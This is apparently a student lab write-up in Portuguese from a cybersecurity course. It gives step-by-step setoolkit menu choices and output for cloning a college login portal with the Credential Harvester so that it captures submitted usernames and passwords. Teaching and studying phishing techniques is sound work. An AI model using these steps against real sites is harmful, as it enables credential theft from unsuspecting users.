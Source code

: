 # Phishing para captura de senhas 🚩

Fazer a captura de usuário e senha de um site usando ferramentas do kali Linux

## Ferramentas 👨‍💻

- Kali Linux
- setoolkit

## Passo a Passo 👣


• Acesso root: sudo su

• Iniciando o setoolkit: setoolkit

                                                                   
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 


• Tipo de ataque: Social-Engineering Attacks

set> 1

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 


• Vetor de ataque: Web Site Attack Vectors

set> 2


   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>


• Método de ataque: Credential Harvester Attack Method 

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>


• Método de ataque: Site Cloner

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report



set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.0.191]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com


• Obtendo o endereço da máquina: ifconfig
• URL para clone: http://www.exemplofaculdade.com


set:webattack> Enter the url to clone: http://www.exemplofaculdade.com

[*] Cloning the website: https://login.exemplofaculdade.com/login.php                                  
[*] This could take a little bit...                                                            

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                      
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                 
[*] Information will be displayed to you as it arrives below:          

## Resultados 🎁

![Alt text](./results1.PNG)

Figura 1: Site de uma faculdade para o portal do aluno

![Alt text](./results2.PNG)

Figura 2: Imagem do Kali Linux usando a ferramenta SETOOLKIT

## Referências 📚

- https://web.dio.me/track/santander-ciberseguranca-2024
- https://www.kali.org/

## Updates 🕐

2024/12/10 - Primeira versão

## Pendências 🚨

